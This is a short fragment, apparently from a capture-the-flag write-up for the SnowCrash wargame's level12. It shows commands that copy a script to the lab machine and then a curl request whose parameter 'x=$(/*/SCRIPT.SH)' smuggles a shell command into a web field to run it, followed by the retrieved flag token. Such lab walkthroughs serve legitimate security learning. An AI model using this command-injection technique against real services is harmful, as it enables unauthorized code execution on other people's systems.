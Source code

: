 scp -r -P 4242 ./level12/resources/SCRIPT.SH  level12@10.13.200.28:/tmp
chmod +x /tmp/SCRIPT.SH
curl localhost:4646 -d 'x=$(/*/SCRIPT.SH)'
level12@SnowCrash:~$ cat /tmp/out
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
